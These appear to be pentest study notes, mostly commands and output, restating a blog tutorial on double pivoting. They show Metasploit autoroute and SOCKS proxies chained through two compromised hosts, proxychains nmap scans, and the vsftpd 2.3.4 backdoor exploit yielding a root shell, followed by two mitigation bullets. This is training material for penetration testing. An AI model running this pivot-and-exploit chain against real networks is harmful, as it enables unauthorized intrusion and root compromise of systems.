 Refer to these links: https://pentest.blog/explore-hidden-networks-with-double-pivoting/			&				https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/

The network scenario above + the resolution of the problem is from this blog: https://pentest.blog/explore-hidden-networks-with-double-pivoting/	

**CONSIDER THE FOLLWING NETWORK SCENARIO:**

```
Attacker(172.16.0.20) -> 172.16.0.11(Victim 1)
                         7.7.7.11    -> 7.7.7.20(Victim 2)
                                        8.8.8.3    -> 8.8.8.9(Victim 3)
```

We, as the Attacker(172.16.0.20), want to compromise Victim 3(8.8.8.9).

To do so our traffic must be proxied through Victim 1 and Victim 2. Supose that we already have a meterpreter shell for Victim 1 and Victim 2. Victim 2 was compromised through a proxy on 127.0.0.1:1080 TCP.

*Setting the proxy for Victim 1:*

```
1. meterpreter > ipconfig
172.16.0.11
7.7.7.11

2. meterpreter > run autoroute -s 7.7.7.0/24
[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11

3. meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
[*] ARP Scanning 7.7.7.0/24
[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe 
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5

4. meterpreter > bg
[*] Backgrounding session 1...

5. msf > use auxiliary/server/socks4a

6. msf auxiliary(socks4a) > set srvhost 172.16.0.20

7. msf auxiliary(socks4a) > set srvport 1080

8. msf auxiliary(socks4a) > run

9. Add this line to the /etc/proxychains.conf file
socks4  172.16.0.20 1080
```
Now we are able to access the 7.7.7.0/24 network using proxychains:

```
~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.25BETA1 ( https://nmap.org )
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
...
...
```

*Setting the proxy for Victim 2:*

```
1. meterpreter > ipconfig
7.7.7.20
8.8.8.3

2. meterpreter > run post/windows/gather/arp_scanner RHOSTS=8.8.8.0/24
[*] ARP Scanning 8.8.8.0/24
[*]   IP: 8.8.8.3 MAC 08:00:27:29:cd:cb 
[*]   IP: 8.8.8.1 MAC 0a:00:27:00:00:03 
[*]   IP: 8.8.8.9 MAC 08:00:27:56:f1:7c 
[*]    IP: 8.8.8.13 MAC 08:00:27:13:a3:b1

3. meterpreter > run autoroute -s 8.8.8.0/24
[*] Adding a route to 8.8.8.0/255.255.255.0...
[+] Added route to 8.8.8.0/255.255.255.0 via 7.7.7.20
[*] Use the -p option to list all active routes

4. meterpreter > bg
[*] Backgrounding session 2...

5. msf > route print
 Subnet Netmask Gateway
 ------ ------- -------
 7.7.7.0 255.255.255.0 Session 1
 8.8.8.0 255.255.255.0 Session 2

6. msf > use auxiliary/server/socks4a

7. msf auxiliary(socks4a) > set SRVPORT 1081

8. msf auxiliary(socks4a) > set SRVHOST 172.16.0.20

9. msf auxiliary(socks4a) > run

10. Add this lines to the /etc/proxychains.conf
dynamic_chain
proxy_dns 
tcp_read_time_out 15000
tcp_connect_time_out 8000
socks4  172.16.0.20 1080  # First Pivot
socks4  172.16.0.20 1081  # Second Pivot
```

Now we can access the 8.8.8.0/24 subnet using proxychains:

```
~# proxychains nmap -sT -sV -p21,22,23,80 8.8.8.9 -n -Pn -vv
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.25BETA1 ( https://nmap.org )
NSE: Loaded 36 scripts for scanning.
Initiating Connect Scan
Scanning 8.8.8.9 [4 ports]
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:21-<><>-OK
Discovered open port 21/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:23-<><>-OK
Discovered open port 23/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:22-<><>-OK
Discovered open port 22/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
...
...
...
```

*Compromising Victim 3:*

```
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port
Exploit target:
   Id  Name
   --  ----
   0   Automatic

msf exploit(vsftpd_234_backdoor) > set rhost 8.8.8.9
rhost => 8.8.8.9

msf exploit(vsftpd_234_backdoor) > run
[*] 8.8.8.9:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 8.8.8.9:21 - USER: 331 Please specify the password.
[+] 8.8.8.9:21 - Backdoor service has been spawned, handling...
[+] 8.8.8.9:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 4 opened (Local Pipe -> Remote Pipe)

ifconfig
8.8.8.9
```

**MITIGATIONS:**

(I've write this mitigations down here, in case you have any problems using the solution explained so that you have an understanding of what could be happening. Also, credit to this blog: https://pentest.blog/explore-hidden-networks-with-double-pivoting/ for providing this mitigations).

- Systems that contain multiple NICs and provide DMZ access should be removed from the existing network structure.
- Systems in the DMZ structure should only be accessed over DMZ structures.
